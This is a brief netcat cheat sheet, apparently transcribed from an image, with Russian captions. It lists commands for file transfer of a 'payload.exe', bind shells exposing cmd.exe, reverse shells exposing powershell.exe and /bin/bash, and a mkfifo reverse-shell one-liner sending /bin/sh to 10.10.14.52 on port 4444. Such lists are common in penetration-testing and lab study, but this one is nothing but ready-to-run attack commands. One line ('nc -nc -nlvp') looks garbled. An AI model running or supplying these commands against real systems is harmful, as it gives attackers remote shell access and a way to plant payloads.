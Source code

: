 nc -e powershell.exe REMOTE 4444  
nc -lvp 4444  
  
nc -nlvp 4444 > payload.exe  
nc -nv TARGET 4444 < payload.exe  
^Передача файла по сети  
  
nc -nlvp 4444 -e cmd.exe  
nc -nv WIN_IP 4444  
^Bind shell  
  
nc -nv NIX_IP 4444 -e /bin/bash  
nc -nc -nlvp 4444  
^Reverse shell  
  
  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 4444 > /tmp/f